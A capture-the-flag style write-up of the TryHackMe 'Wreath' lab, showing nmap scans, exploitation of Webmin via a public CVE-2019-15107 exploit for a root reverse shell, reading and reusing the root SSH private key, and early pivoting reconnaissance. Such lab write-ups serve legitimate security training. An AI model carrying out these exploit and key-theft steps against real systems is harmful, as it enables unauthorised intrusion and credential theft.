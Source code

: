 # Wreath Room
Link to the room : https://tryhackme.com/room/wreath
My IP address : 10.10.156.24
My OS : Kali GNU/Linux 2021.2

## Gathered information about the network :
- There are three machines on the network, where at least one has public facing webserver turned on
- There is internal git server that is self-hosted somewhere in the network
- One of the machines has antivirus installes so we can assume this is Windows machine and we cannot acces it directly from the webserver

## Enumeration
First off we need to enumerate our target. There is only one IP provided for us (10.200.159.200) so we will start with this one.
```
sudo nmap -sSVC -p- 10.200.159.200

PORT    STATE   SERVICE and VERSION
22      open    ssh OpenSSH 8.0
80      open    http Apache 2.4.37 (centos)
443     open    ssl/http Apache 2.4.37 (centos)
9090    open    zeus-admin (probably not relevant)
10000   open    MiniServ 1.89 (webmin)
```
After that I usually scan the target again, with other parameters, to make sure that we didn't miss anything. For example :
```
sudo nmap -sV -p- -A -O 10.200.159.200 
```
We can't see any new services/ports but because of the -O parameter we get the 89% agressive OS guess that this machine is running Linux (we were able to retrieve this information
before from 80/443 port scan.
## Checking services
  ### HTTP
  After the enumeration we can check all of the available services. For example you can connect to the ssh `ssh root@10.200.159.200` and check if there is any banner shown.
  Next up we need to check the webpage. When we try to enter we are redirected to https://thomaswreath.thm/. As we can see there is no DNS that will resolve this for us. 
  To get access we need to edit our /etc/hosts file.
  ```
  10.200.159.200    thomaswreath.thm
  ```
  With that out of our way we are able to get access to this webpage where we are welcomed with resume website of Thomas Wreath.
  In real life penetration test you should "footprint" this person. That's what we will try to do but on a much lower scale. First up I will find everything that can be useful
  in the future that is on this website.
  1. Thomas' mobile phone number and phone number : +447821548812 and 01347 822945
  2. Thomas' address : 21 Highland Court in Yorkshire, England
  3. His mail : me@thomaswreath.thm

  Next up we can see that the page was done with the help of Online CV design by ThemeHippo. Sometimes it is useful information, for example when the site is made with wordpress.
  Normally we should enumerate this page with dirb/dirbuster/gobuster and maybe directory-list-2.3-medium.txt but for now we'll move on to the next service.
  ### Webmin HTTP
  We can start with checking if this version of the webmin is vulnerable to any exploit. Quick search with google gives us information that we wanted.
  On https://github.com/MuirlandOracle/ you are able to find the CVE-2019-15107 exploit that gives us unauthorized Remote Command Execution on this machine. 
  You can simply clone it onto your machine and install all of the requirements to run this exploit.
  ```
  git clone https://github.com/MuirlandOracle/CVE-2019-15107
  pip3 install -r requirements.txt
  chmod +x CVE-2019-15107.py
  ```
  After all of the requirements are satisfied we are able to obtain a reverse shell to the target machine.
  ```
  ./CVE-2019-15107.py 10.200.159.200
  ```
  Luckily this webserver is running as a root so we don't have to escalate our privileges! But still we have to stabilise our shell.
  There is this functionality to obtain a stable reverse shell with this CVE but I wasn't able to do it (couldn't type in my IP address and port where my netcat was listening)
  so I read the /.ssh/id_rsa file of root and connected through ssh to stabilise my shell.
  ```
  cat /root/.ssh/id_rsa
  nano id_rsa
  chmod 600 id_rsa
  ssh -i id_rsa root@10.200.159.200
  ```
 ## Pivoting
  Right now we are inside of first machine but we need to keep going and keep enumerating so we can start pivoting. Pivoting is the art of using access obtained over one machine
  to exploit another machine deeper in the network. It is one of the most essential aspects of network penetration testing. There are two main methods of pivoting :
  - Tunnelling/Proxying - Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially
  also be tunnelled inside another protocol (e.g. SSH tunnelling) which can be useful for evading a basic IDS or firewall.
  - Port Forwarding - Creating a connection between a local port and a single port on a target via compromised host.
  
  Which style of pivoting is more suitable will depend entirely on the layout of the network, so we'll have to start with further enumeration before we decide how to proceed.
  ### Enumerating before pivoting
  Information is power - our first step when attempting to pivot through a network is to get an idea of what's around us. Ideally we want to take advantage of pre-installed
  tools on the system to enumerate a network through a compromised host. This is called Living off the Land (LotL) - a good way to minimise risk.
  ```
  ifconfig
  arp -a
  cat /etc/hosts
  cat /etc/resolv.conf
  ```
  
  
  
  
  
  
  
